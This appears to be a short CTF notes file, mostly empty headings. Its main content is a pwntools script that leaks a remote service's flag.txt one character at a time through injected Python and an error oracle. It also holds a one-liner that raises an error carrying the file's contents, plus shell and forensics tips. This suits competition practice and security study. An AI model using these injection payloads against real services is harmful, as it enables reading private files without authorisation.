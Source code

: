 # CTF-Notes
## Web
## Pwn
##### Timing Attack poc 
```
from pwn import remote
import string
host = ""
port = 
s = remote(host, port)
flag = ""
index = 0
changed = True
s.recvuntil('!\n')
while changed:
    changed = False
    for c in '_{}' + string.printable:
    	print("testing {}".format(flag + c))
    	command = '''1/0 if open('flag.txt','r').read({})[{}] == ''{}' else 0\n'''.format(index + 1, index, c)
    	print(command)
    	s.send(command)
    	answer = s.recvuntil("!\n")
    	if b'Traceback' in answer:
    		flag += c
    		changed = True
    		index += 1
    		break
```

## Forensics
..* .docx file ? try open it as zip archive  


## Reverse Engineering
## Crypto

## Misc/various 
#### Raise an error with the flag (python)
Ex: `raise NameError(open('flag.txt','r').read(50))`

#### No output on the shell?
try redirection ex: `ls 1>&0`
